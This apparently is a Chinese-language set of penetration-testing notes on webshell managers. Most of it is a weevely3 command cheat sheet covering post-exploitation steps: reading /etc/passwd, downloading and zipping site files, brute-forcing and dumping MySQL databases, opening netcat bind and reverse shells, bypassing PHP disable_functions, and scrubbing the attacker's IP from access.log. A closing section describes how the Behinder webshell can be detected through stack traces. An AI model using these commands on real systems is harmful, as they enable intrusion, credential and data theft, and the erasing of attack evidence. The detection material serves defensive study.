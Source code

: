 ### Webshell管理工具


|webshell名称|主控端语言|针对目标环境|描述|
|:-------------:|--|--|-----|
|[epinna/weevely3](https://github.com/epinna/weevely3)|python2|php | 更适合linux环境下的后渗透 |
|[rebeyond/Behinder](https://github.com/rebeyond/Behinder)|Java|php/Java/.NET|“冰蝎” 动态二进制加密 webshell管理端|
|[ABPTTS](https://github.com/nccgroup/ABPTTS)|python|.jsp .war .aspx|TCP tunneling over HTTP/HTTPS for web application servers. 参考[Black Hat USA 2016](https://www.blackhat.com/us-16/arsenal.html#a-black-path-toward-the-sun) |



#### weevely3的后渗透功能总结

* 主机信息搜集(详细内容参考其他笔记)
  * 工具命令`system_info` 查看当前webshell文件位置 操作系统类型 根目录 php版本 当前用户名 外网IP 等
  * 工具命令`system_procs` 列出进程
  * 工具命令`:system_extensions` 查看php和web中间件信息 能看到apache_modules等信息
  * 工具命令`:audit_phpconf`
  * 工具命令`:audit_filesystem`  查看linux下关键目录 寻找 可写/可读/可执行 文件
* 文件操作
  * 读取文件命令`:audit_etcpasswd` 读取passwd文件(需要足够的权限)
  * 创建文件命令`touch -human-ts '2019-05-29 16:21:42' test.php` 创建文件 可设置创建时间
  * 下载文件命令`:file_download result.zip /Users/xxx/Downloads/result.zip` 把目标站的`result.zip` 下载到本地`Downloads/result.zip`
  * 上传文件命令`:file_upload /Users/xxx/Downloads/1.png file.png -force -vector fwrite`把本地文件/数据 上传到 远程目标站`file.png` 参数`-force`表示如果文件存在则强制覆盖
  * 上传文件命令`:file_upload -content "testdata" data.php` 把本地文件/数据 上传到 远程目标站`data.php`
  * 压缩文件命令`:file_zip site.zip ./` 把当前目录下所有文件压缩成site.zip 注意压缩过程可能被中断(判断方法是临时压缩文件大小不变) 建议重新执行压缩文件命令(实测某次压缩过程被中断6次才压缩成功 最终压缩包大小为2G)
  * 压缩文件命令`:file_gzip site.gz ./` 只支持linux
  * 搜索内容命令`:file_grep ./ "pass"` 不建议搜索大目录
* net网络请求
  * 端口扫描
    * 工具命令`nmap 127.0.0.1 21,22,80,443,1433,3306,3389,7001` 功能使用PHP函数fsockopen](https://www.php.net/manual/en/function.fsockopen.php)实现
  * proxy
    * 工具命令`:net_proxy` 使用目标主机发起http(s)请求
    * 工具命令`:net_curl http://ipconfig.io/json`  模拟curl 使用目标主机发起http(s)请求
* DB数据库操作
  * SQL交互命令`sql_console -user USER -passwd PASS123 -host 10.2.3.4` 连接MySQL成功则能交互式执行SQL语句如`show databases;`
  * 暴力枚举数据库用户名和口令 只支持mysql和pgsql
    * 工具命令`:bruteforce_sql mysql -hostname localhost -users root -pwds db123456 admin123` 简单枚举 成功会出现`root:pass`
    * 工具命令`:bruteforce_sql mysql -hostname localhost -users USERNAME1 USERNAME2 USERNAME3ROOT -fpwds wordlists/dic.txt`字典枚举
  * dump数据库  支持mysql,pgsql,sqlite,dblib
    * 工具命令`:sql_dump DBname DBuser DBpass -dbms mysql -host localhost:3306 -lpath /Users/xxx/Downloads/dump1.sql` 把数据库dump 保存到本地`dump1.sql`
* 派生shell
  * 正向shell`:backdoor_tcp`
    * 工具命令`:backdoor_tcp 8811 -vector netcat` 在目标主机(被控端)公网IP上开启端口监听 1.1.1.1:8811   主控端执行`nc 1.1.1.1 8811`
    * 工具命令`:backdoor_tcp 8811 -vector netcat_bsd`
    * 工具命令`:backdoor_tcp 8811 -vector python_pty`
    * 工具命令`:backdoor_tcp 8811 -vector socat`
  * 反向shell`:backdoor_reversetcp`
* 命令交互
  * 执行PHP代码 - `:shell_php "phpinfo();"`
  * 执行系统命令 - `:shell_sh pwd -vector proc_open`
  * bypass disable_functions 方法1 - 使用Apache的mod_cgi模块和`.htaccess`文件
    * 工具命令`:audit_disablefunctionbypass` 如果失败会提示
    * 利用前提:Apache使用了mod_cgi模块
    * 问题:php的配置文件`php.ini`中`disable_functions=`说明了禁止执行的php函数，如`exec()`等
    * 启动模块`:audit_disablefunctionbypass` 注意：会上传2个文件 `.htaccess` 和 CGI脚本 `acubu.ved`
    * 通过CGI脚本启动的独立进程`acubu.ved` 即可实现伪终端 进行命令交互 如`ps -aux` `whoami` 等
    * 不需要执行命令则可删除之前上传的2个文件 `:file_rm .htaccess` `:file_rm acubu.ved`
    * 如果不删除之前上传的2个文件 则下次可以直接启动CGI脚本 实现伪终端命令交互 `:audit_disablefunctionbypass -just-run http://localhost/acubu.ved`
  * bypass disable_functions 方法2 - json serializer的UAF漏洞
      * PHP 7.1-7.3 [PHP :: Bug #77843 :: Use after free with json serializer](https://bugs.php.net/bug.php?id=77843) [exploits](https://github.com/mm0r1/exploits/tree/master/php-json-bypass)
* 攻击痕迹清理(详细内容参考其他笔记)
  * 删除某文件(access.log)中 有1.1.1.1的那些行(实测不一定成功 看权限)  自带[3种实现方式](https://github.com/epinna/weevely3/blob/caf8978a50754892f7282d451ad18ab417600636/modules/file/clearlog.py)
    * 使用php代码实现`:file_clearlog -vector php_clear 1.1.1.1 access.log`
    * 使用sed命令实现`:file_clearlog -vector clearlog 1.1.1.1 access.log`
    * 使用sed命令实现`:file_clearlog -vector old_school 1.1.1.1 access.log`

### 检测案例1 - 通过堆栈检测未知webshell(可发现冰蝎webshell)

冰蝎webshell的JSP版本通过自定义ClassLoader + defineClass方法来实现eval特性。
```
new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);
```

因为冰蝎webshell使用了加密通信流量(AES双向加密)，可绕过WAF/IDS等系统

检测方法:部署在web应用内部的OpenRASP能够看到后门操作日志（需安装 999-event-logger 插件）:
```
[event-logger] Listing directory content: /
[event-logger] Execute command: whoami
```

同样，可通过"命令执行"的堆栈进行检测:
```
java.lang.ProcessBuilder.start
...
net.rebeyond.behinder.payload.java.Cmd.RunCMD
net.rebeyond.behinder.payload.java.Cmd.equals
```

检测方法参考自[百度安全实验室](https://mp.weixin.qq.com/s?src=11&timestamp=1562667020&ver=1718&signature=d-uJaXrL7n3rxgaAIbCwhNwsmR30j*WEc-6KntSfDK53VoJSUODDlwvvxEiF3Y5oN*8PnkZChi5DtxhyhtULFDryXwj927jCv1H2KWYADcTU-VHxlZas6QlTRVxkSkoP&new=1)
